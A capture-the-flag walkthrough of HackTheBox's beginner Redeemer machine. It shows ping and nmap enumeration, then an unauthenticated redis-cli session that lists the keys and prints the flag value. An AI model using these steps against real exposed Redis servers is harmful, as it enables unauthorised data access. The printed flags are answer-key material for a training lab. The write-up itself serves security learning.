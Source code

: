 ```yaml
---
title: HackTheBox - Redeemer
date: 2023-12-25 07:52:00 +0700
categories:
  - HackTheBox
  - Starting Point
tags:
  - redis
  - databases
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/starting_points/Redeemer.png
  alt: Redeemer - HackTheBox
---
```


[**Redeemer**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Redeemer we will learn about **Redis (REmote DIctionary Server)**.

## Introduction

- Connect **Redeemer** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.150.140

PING 10.129.150.140 (10.129.150.140) 56(84) bytes of data.
64 bytes from 10.129.150.140: icmp_seq=1 ttl=63 time=234 ms
64 bytes from 10.129.150.140: icmp_seq=2 ttl=63 time=275 ms
64 bytes from 10.129.150.140: icmp_seq=3 ttl=63 time=296 ms
64 bytes from 10.129.150.140: icmp_seq=4 ttl=63 time=319 ms

--- 10.129.150.140 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 234.354/280.959/318.905/31.135 ms
```

### Nmap

Scan ports using `nmap`, `-sV` to display port version info, `-T4` to speed up scanning (the higher the faster [0-5]), `-p-` to scan all ports without exception, and `-Pn` to treat all hosts as online.

```bash
❯ nmap -sV -T4 -p- -Pn 10.129.150.140

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-25 08:23 WIB
Warning: 10.129.150.140 giving up on port because retransmission cap hit (6).
Nmap scan report for JSN.JaringanKU (10.129.150.140)
Host is up (0.21s latency).
Not shown: 64934 closed tcp ports (conn-refused), 600 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1458.17 seconds
```

You can see, the open port is 6379/tcp which is a Redis service. We can connect to the Redis service using `redis-cli`. If you don't have it, please download it first.

## Foothold

It's time to connect to the Redis service with `redis-cli`. If you don't know the command, use `--help` to display help. Use `-h` to connect to the destination host.

### Redis

To display all databases, we can use the command `keys *`, and to display the contents of the database use `get <key>`.

```bash
❯ redis-cli -h 10.129.150.140

10.129.150.140:6379> keys *
1) "stor"
2) "numb"
3) "flag"
4) "temp"

10.129.150.140:6379> get stor
"e80d635f95686148284526e1980740f8"

10.129.150.140:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"

10.129.150.140:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"

10.129.150.140:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```